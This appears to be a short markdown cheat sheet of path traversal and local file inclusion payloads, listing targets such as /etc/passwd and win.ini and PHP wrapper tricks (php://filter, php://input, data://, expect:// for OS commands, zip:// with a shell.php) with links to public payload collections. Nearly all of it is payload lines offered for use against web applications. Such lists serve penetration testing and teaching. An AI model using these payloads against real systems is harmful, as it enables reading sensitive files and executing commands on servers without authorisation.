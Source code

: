 # Path Traversal List

## Linux LFI Payloads

```
/etc/passwd
```

## Windows LFI Payloads

```
/windows/win.ini
```

## Evasion Filters

```
php://filter/convert.base64-encode/resource=/path/to/file
php://input
data://text//plain;base64,<base64_encoded_payload>
expect://<os_command>
zip://file.jpg%23shell.php
```

## References

- [](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Directory%20Traversal)

- [PayloadsAllTheThings: File Inclusion](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md)

- [Seclists: Directory Traversal Payloads](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)